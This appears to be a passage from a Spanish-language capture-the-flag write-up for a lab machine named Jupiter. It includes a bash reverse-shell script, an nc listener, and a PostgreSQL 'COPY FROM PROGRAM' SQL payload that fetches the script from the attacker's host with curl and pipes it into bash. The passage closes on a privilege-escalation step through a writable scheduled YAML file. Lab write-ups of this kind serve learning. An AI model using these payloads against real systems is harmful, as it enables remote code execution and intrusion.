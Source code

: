 ```bash
❯ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.216 - - [18/Oct/2023 11:55:58] code 404, message File not found
10.10.11.216 - - [18/Oct/2023 11:55:58] "GET /hola HTTP/1.1" 404 -
```
{: .nolineno}


Con esto en mente, se puede lograr que se consuma un archivo y se interprete como bash al realizarle curl.

```bash
#!/bin/bash
bash -c "/bin/bash -i >& /dev/tcp/10.10.15.135/4444 0>&1"
```
{: file="shell.sh"}


Se pone a la escucha con NC:

```bash
nc -lvp 4444
```
{: .nolineno}
Y se crea el payload correspondiente:

```sql
"rawSql":"DROP TABLE IF EXISTS cmd_exec;  CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'curl http://10.10.15.135:8081/shell.sh | bash';"
```
{: .nolineno}
Con eso se obtiene una **shell reversa dentro de la víctima como el usuario postgres**.

```bash
postgres@jupiter:/tmp$ whoami
postgres
```
{: .nolineno}
## Escalada de Privilegios (Juno)

Al revisar los comandos que se ejecutan de forma periódica con **pspy**, se observa que existe una tarea que se ejecuta frecuentemente, ejecutada por el usuario **juno** y relacionada con el archivo ***/dev/shm/network-simulation.yml***. Al examinar el archivo, se nota que cuenta con permisos de lectura y escritura, por lo que se puede intentar modificarlo para asumir la identidad de otro usuario.

El archivo sería el siguiente:

```yml
hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```
{: file="/dev/shm/network-simulation.yml"}
